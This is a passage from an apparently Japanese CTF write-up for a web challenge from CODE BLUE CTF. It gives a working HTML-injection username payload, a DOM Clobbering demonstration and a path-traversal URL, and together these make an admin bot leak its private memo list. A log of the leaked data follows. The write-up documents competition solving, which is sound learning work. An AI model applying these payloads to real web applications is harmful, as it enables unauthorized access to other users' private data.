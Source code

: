 ```javascript
    alert('reported! admin will view your report.')
  })
})
```

出力された HTML ではコメントアウトされていますが、以下のようにメモに `banword` が含まれていた場合に自動で報告する機能を追加するファイルもあります。

`/static/javascripts/periodically-watch-scrap-body-and-report-scrap-automatically-with-banword.js`

```javascript
const timer = setInterval(() => {
  if ($('.scrap-body').length === 0) {
    return;
  }

  clearInterval(timer)
  if ($('.scrap-body').text().includes(window.banword || '')) {
    reportScrap()
  }
}, 300)
```

`reportScrap` の実装に問題があり、報告を送る先を示す `to` を `window.admin.id` で参照しているため、`config.js` が読み込まれなかった場合には以下のように DOM Clobbering ができます。

```html
<form name="admin" id="hoge"></form>
<script>
console.log(window.admin.id); // => 'hoge'
</script>
```

これらを利用して、以下のようなユーザ名で登録し、メモを作成することで `to=(uid)&url=http%3A%2F%2Fv10.scsq.task.ctf.codeblue.jp%3A3000%2Fscraps%2Fj6xvml1w%2Fa&title=&body=` のような POST を `/report` に飛ばすことができました。

```html
<script src="/static/javascripts/report-scrap.js"></script><script src="/static/javascripts/periodically-watch-scrap-body-and-report-scrap-automatically-with-banword.js"></script><form name="admin" id="(uid)" class="scrap-body"></form><!--
```

`/reports` にアクセスすると、この報告のログが表示されていました。

フラグは admin のメモの中にあるため、まずはそのメモの URL を取得する必要があります。

`load-scrap.js` の実装に問題があるため、`/scraps/m7ql95cp/a?b/c/d` のようにリクエストパラメータを付与した場合には `/static/raw/m7ql95cp/a` の内容が取得されることはなく、かわりに `/static/raw/c/d` の内容が取得されます。

これを利用して、先程のユーザ名で適当なメモを作成、`/scraps/m7ql95cp/a?b/../..` のような URL にアクセスすると `/`、つまりメモの一覧が取得され、さらにその内容が報告されて `/reports` に表示されました。

これを admin に報告することで `/reports` に以下のようなログが追加されました。

```
{"reports":[{"url":"http://v10.scsq.task.ctf.codeblue.jp:3000/scraps/k5zo3zvm/a?b/../..","title":"hoge","body":"<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><title></title><link rel=\"stylesheet\" href=\"https://stackpath.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css\" integrity=\"sha384-WskhaSGFgHYWDcbwN70/dfYBj47jz9qbsMId/iRN3ewGhXQFZCSftd1LZCfmhktB\" crossorigin=\"anonymous\"><link rel=\"stylesheet\" href=\"/static/app.css\"><script src=\"https://code.jquery.com/jquery-3.3.1.min.js\" integrity=\"sha256-FgpCb/KJQlLNfOu91ta32o/NMZxltwRo8QtmkMRdAu8=\" crossorigin=\"anonymous\"></script><script src=\"https://stackpath.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js\" integrity=\"sha384-smHYKdLADwkXOn1EmN1qk/HfnUcbVRZyYmZ4qpPea6sjB/pTJ0euyQp0Mk8ck+5T\" crossorigin=\"anonymous\"></script></head><body><header><nav class=\"navbar navbar-dark bg-dark navbar-expand-lg\"><ul class=\"navbar-nav mr-auto\"><li class=\"nav-item\"><a class=\"nav-link\" href=\"/\">Top</a></li><li class=\"nav-item\"><a class=\"nav-link\" href=\"/new\">New Scrap</a></li><li class=\"nav-item\"><a class=\"nav-link\" href=\"/logout\">Logout</a></li></ul></nav></header><main class=\"py-5 bg-light\" role=\"main\"><div class=\"container\"><div class=\"row\"><div class=\"col-md-4\"><a class=\"scraps-item\" href=\"scraps/admin/91510540-f090-4399-bad5-351e719686b5\">91510540-f090-4399-bad5-351e719686b5</a></div></div></div></main></body></html>"}]}
```
